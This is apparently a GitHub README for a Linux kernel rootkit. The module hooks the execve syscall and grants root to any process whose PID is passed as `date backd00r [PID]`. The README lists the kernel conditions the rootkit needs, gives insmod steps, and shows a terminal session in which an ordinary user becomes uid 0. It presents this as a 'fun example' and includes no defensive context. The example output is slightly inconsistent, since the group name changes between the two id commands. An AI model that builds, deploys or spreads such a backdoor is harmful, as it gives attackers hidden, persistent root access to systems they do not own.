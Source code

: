 # Syscall hook rootkit for the Linux Kernel
This is a fun example of what can be done using Linux kernel modules.

It hooks the `execve` syscall and waits for `date` to be executed with the `backd00r` argument followd by a PID number to elevate to root. It attaches new root credentials to the process pointed by PID.

Tested with kernel 5.6.6.

## Requirements
- Linux Kernel (tested with 5.6).
- `CONFIG_KALLSYMS_ALL=y` flag should be enabled to access the syscall table.
- Kernel modules enables and signature not enforced (default).
- No LSM enabled, typically Lockdown's integrity mode disables kernel modules.

## Usage
Once the module is installed, as a regular user:
`> date backd00r [PID]`

## Example
As root:
```sh
# insmod syscall_hook_rootkit.ko
[   13.668245] syscall_hook_rootkit: loading out-of-tree module taints kernel.
[   13.669009] syscall_hook_rootkit: module verification failed: signature and/or required key missing - tainting kl
[   13.674155] All lights are green...
```

As a regular user (`$$` returns the current process' PID):
```sh
> id
uid=1000(bob) gid=1000(bob) groups=1000(bob)

> date backd00r $$
[  17.343304] SECRET: making PID 1341 root!
date: extra operand '1341'
Try 'date --help' for more information.

> id 
uid=0(root) gid=0(root) groups=0(root),1000(kltx)
```
